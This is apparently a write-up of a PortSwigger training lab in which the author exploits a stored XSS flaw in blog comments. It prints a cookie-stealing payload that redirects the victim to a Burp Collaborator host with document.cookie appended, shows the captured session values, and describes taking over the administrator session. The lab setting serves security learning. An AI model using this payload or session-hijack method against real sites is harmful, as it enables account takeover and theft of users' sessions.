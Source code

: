 # Lab - Exploiting cross-site scripting to steal cookies

## Objective:  This lab contains a stored XSS vulnerability in the blog comments function. A simulated victim user views all comments after they are posted. To solve the lab, exploit the vulnerability to exfiltrate the victim's session cookie, then use this cookie to impersonate the victim. 

I went to the comments section and I tried out the `<script>alert(2)<\script> payload.`

This payload did not work. 

 I went to the portswigger XSS cheat cheat and tried the following payload
 
 https://portswigger.net/web-security/cross-site-scripting/cheat-sheet
 
![image](https://user-images.githubusercontent.com/90155329/132958876-501bb511-fcc6-4598-b98d-e9c3094a0e2f.png)
 
![image](https://user-images.githubusercontent.com/90155329/132958895-aa0d2fa1-ed26-4ee5-9ac0-0ff240aef496.png)
 
 After entering the payload, an alert box displays. This means the stored XSS worked.
 
![image](https://user-images.githubusercontent.com/90155329/132958903-b703188a-fe4b-4511-8627-04aa483376b1.png)
 
 The next step is to change the payload to steal the user's cookie. Since this is a stored XSS attack, any user who visits this page will execute the javascript. 
 
I went back to the cheatsheat and this payload looks promising

![image](https://user-images.githubusercontent.com/90155329/132958917-2a303c15-65d6-46d3-b42d-8236d5bc8485.png)

`<video><source onerror=location=/\02.rs/+document.cookie>`
	
I would need to change the location to my malicious server listening for the cookies. This lab will only send outbound requests to burpcollaborator.net which is used by Burp Pro. I was able to get a trial version. 

From Burp Pro, I went to Burp > Burp Collaborator client

![image](https://user-images.githubusercontent.com/90155329/132958930-8a102d03-cb96-4f84-baff-95db85e831f8.png)

I clicked "Copy to clipboard" to get the burp.collaborator.net FQDN

2nqn3xw3l8edc2y6w5wia7k7pyvpje.burpcollaborator.net

![image](https://user-images.githubusercontent.com/90155329/132958939-465a10dc-135c-446c-9007-cb5e83743c40.png)

Now, in the XSS payload, I will use this FQDN 

`<video><source onerror=location=/\2nqn3xw3l8edc2y6w5wia7k7pyvpje.burpcollaborator.net/+document.cookie>`
	
![image](https://user-images.githubusercontent.com/90155329/132958988-0f720f31-d4a5-4121-8a3f-dc40227a3a98.png)
	
I received the following error

![image](https://user-images.githubusercontent.com/90155329/132958974-515a3aac-a23f-45bc-8449-dc1845badeb5.png)

I dropped the payload from the Name field because it was too long.

![image](https://user-images.githubusercontent.com/90155329/132958998-0d9d6818-9552-4425-b58e-d512303e866d.png)

![image](https://user-images.githubusercontent.com/90155329/132959006-b71b0bc3-e8b8-4a2b-983f-bd95d4f5d733.png)


From the Collaborator client, I can see an HTTP request for `/secret=n0mdFU8w7BsSFNVOtkMIiUDjTmNsvDHQ;%20session=gimJNMnGHeTwVAkPn4GAIa0ga8s2LjxD`

![image](https://user-images.githubusercontent.com/90155329/132959012-4220dfc1-f562-4d6e-8284-ce39f037382e.png)

This is probably the cookie for another user who was victim to the cookie stealing stored XSS payload. I took it and replaced my own cookie with `gimJNMnGHeTwVAkPn4GAIa0ga8s2LjxD`

![image](https://user-images.githubusercontent.com/90155329/132959028-408ea2f6-cca7-4b65-ac57-ecf6556afb2e.png)

After replacing my cookie, I passed the lab!

![image](https://user-images.githubusercontent.com/90155329/132959032-54fe1efb-bea0-400f-906d-9662653dd32d.png)

I clicked to "My account" and I can see that the cookie I used was the Administrator user.

![image](https://user-images.githubusercontent.com/90155329/132959037-513bd638-6595-4802-9264-c8b2a4ffa74c.png)
